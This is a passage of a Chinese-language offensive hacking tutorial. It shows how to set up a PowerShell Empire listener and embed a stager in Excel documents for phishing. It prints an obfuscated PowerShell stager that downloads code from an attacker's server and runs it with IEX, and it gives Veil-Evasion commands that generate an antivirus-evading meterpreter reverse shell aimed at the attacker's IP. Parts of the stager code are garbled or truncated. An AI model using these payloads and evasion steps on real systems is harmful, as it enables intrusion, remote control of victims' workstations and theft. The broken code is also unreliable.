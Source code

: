 ```
- 因为我们使用原始套接字来启动连接，所以使用Web代理访问互联网的工作站（很可能）将无法连接回来。
- 我们的Netcat监听器每次只接受一个连接。不适合针对数百名用户的网络钓鱼行动。
- 我们使用的shell是相当基本的。有一些自动命令可能会更有趣，例如启动键盘记录器，嗅探密码等。

这就是臭名昭着的PowerShell Empire 派上用场的地方。它是一个框架，提供一个能够处理多个受感染用户的监听器，但也为shell提供了一些有趣的命令，如获取明文密码，数据透视，权限提升等。


按照此博客文章[http://www.powershellempire.com/?page_id=110]下载并安装Empire PS（ 基本上复制Git存储库并启动 install. sh ）。


在欢迎屏幕上，转到监听器菜单（命令监听器）并列出默认位置info命令:

![](./Chap2/9.info.png)

<br/>
通过发出set命令设置正确的端口和地址（例如，设置端口443）。然后通过发出run <Listener_name>来执行监听器。


现在我们需要生成回连此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”:
```
[SysTeM.NET.SErVicePOinTMaNAGer]::EXPeCt10 = 0;
$wC=NEw-ObjEct SYstEM.Net.WEbCLIenT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$Wc.HeaderS.Add('User-Agent',$u);
$Wc.PROXy= [SystEm.NEt.WebREQuest]::DefAuLtWEBPROxy;
$W [SYsTEM.NeT.CREDENtiAlCAChe]::DefAulTNeTwORK[chAr[]]$b=([cHaR[]] ($WC.DowNLOAdStrinG("http://<Front_Gun>:443/index.{$_-bXor$K[$i++%$k.LEngTH]};
IEX ($B-joIn'')
```
<br/>
您可以看到代理使用对称加密密钥来传输有效负载并很好地处理工作站上定义的任何潜在代理。在远程计算机上执行脚本时，我们会在Front Gun服务器上收到新通知。

![](./Chap2/10.Stager.png)


我们将在接下来的章节中探讨Empire的一些有趣功能，但与此同时，您可以查看帮助命令以获得一个想法。

为了将此PowerShell脚本嵌入到Excel文档中，我们将使用普通的shell函数，如前所示，或依赖于LuckyStrike。


#### 4)Meterpreter  in VBA
为了替代使用PowerShell Empire的stager来获取shell，我们可以采取另一种方式，例如，通过部署一个来自Metasploit框架的meterpreter shell。就我们的直接目的而言，两个平台之间的差异相对较小。他们都有额外的模块来对受感染的工作站执行有趣的操作，但是使用两个分级器会增加绕过SPH的反恶意软件解决方案（防病毒，沙箱，IDS等）的几率。

如前所述，虽然metasploit的有效载荷（包括meterpreter）是反病毒公司所熟知的。他们一旦被目标接收就永远不会发出警报。为了克服这个障碍，我们将使用另一个自动添加多层加密和混淆的工具生成相同的meterpreter有效负载：Veil-Evasion（项目地址:https://github.com/Veil-Framework/Veil-Evasion ，Veil-Evasion是与Metasploit生成相兼容的Payload的一款辅助框架,并可以绕过大多数的杀软）。

回顾一下，Veil-Evasion将在PowerShell中生成一个模糊的meterpreter shellcode，这段代码将连接回连Front Gun服务器上的常规metasploit监听器，并让我们完全访问工作站。


非常漂亮。但是我们该怎么做呢？首先，我们需要在Linux上使用经典的apt-get install安装Veil-Evasion。安装时间有点长，但我们可以一次完成，非常简单直观：
![](./Chap2/11.Veil-Evasion.png)


list命令显示所有可用的有效负载。我们选择PowerShell  reverse_https有效负载：
```
>use powershell/meterpreter/rev_https
>set Proxy Y
>set LHost <FrontGun_IP>
>set LPort 443
>generate
```
```